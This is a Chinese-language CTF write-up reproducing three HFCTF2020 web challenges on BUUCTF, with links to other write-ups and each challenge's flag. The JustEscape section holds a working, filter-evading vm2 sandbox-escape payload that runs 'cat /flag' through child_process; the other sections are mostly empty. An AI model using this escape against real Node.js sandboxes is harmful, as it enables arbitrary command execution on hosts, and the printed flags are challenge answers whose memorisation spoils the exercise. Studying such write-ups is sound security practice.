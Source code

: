 # Web

BUUCTF 复现

- https://www.zhaoj.in/read-6512.html
- https://p3rh4ps.top/index.php/2020/04/19/%e8%99%8e%e7%ac%a6ctf-web-wp/

## [HFCTF2020]EasyLogin

```
```

> flag{3d4fe4a3-3649-4e92-8d1d-a93de2a08bd6}

## [HFCTF2020]JustEscape

> 知识点
  1. vm.js 沙箱逃逸与过滤绕过,
  2. JavaScript 模板字符串

1. 通过异常，发现不是PHP，而是Nodejs+vm2
2. vm2沙盒逃逸，https://github.com/patriksimek/vm2/issues/225
3. 由于被过滤，使用"``"

```js
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```

> flag{575e4115-81bf-4dd4-ab90-f695790550d2}

## [HFCTF2020]BabyUpload

> 知识点

1. PHP代码审计
2. session处理器甄别 + session伪造
3. 函数特性(file_exists)

> 题解



> flag{740a3ee9-3128-4d61-9901-656381bdaec4}